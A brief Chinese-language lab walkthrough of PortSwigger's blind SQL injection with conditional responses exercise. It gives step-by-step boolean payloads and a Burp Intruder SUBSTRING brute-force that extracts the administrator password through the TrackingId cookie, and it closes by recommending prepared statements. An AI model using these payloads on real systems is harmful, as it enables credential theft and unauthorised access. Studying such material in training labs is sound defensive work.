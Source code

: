 # SQL 注入

## SQL 注入备忘单

https://portswigger.net/web-security/sql-injection/cheat-sheet

## 例子一

参考 Lab: Blind SQL injection with conditional responses

1. 分析，可能用了某个SQL，例如 select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl';
2. 修改TrackingId select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl'--'; 返回结果一样，存在注入漏洞，如果结果是其他，那么可能不存在注入漏洞
3. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and 1=1--'; 结果一样，存在注入漏洞，1=1改成1=2，结果不一样，结果为False
4. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select 'x' from users limit 1) = 'x'--'; 猜是否有users表
5. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select username from users where username = 'administrator 'limit 1) = 'administrator'--'; 猜是否有administrator用户，以及username列
6. 使用intruder 确定密码长度select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select username from users where username = 'administrator'  and length(password) > 1 limit 1) = 'administrator'--'; 试 1 2 3 4 5 ... 直到某个标识没出现，例如20的时候没出现，那么20就是密码长度
7. 确定密码长度20，Cookie: TrackingId=412sXaPzxUS4w84c' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a; session=WKKbcio4oJYlf72nueUvdRzxWcW58jY3 使用substring确认每一位密码的字符，a-zA-Z0-9，使用cluster bomb来实现' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator')='$a$ 第一个用Numbers 第二个用Brute Forcer
8. 结果过滤 welcome back，记录每位密码的字符，拼接在一起
9. 密码为cckmlqxov888xrzgys01 （再复杂的密码也能被攻破，所以时刻使用SQL预处理防SQL注入，这很重要）
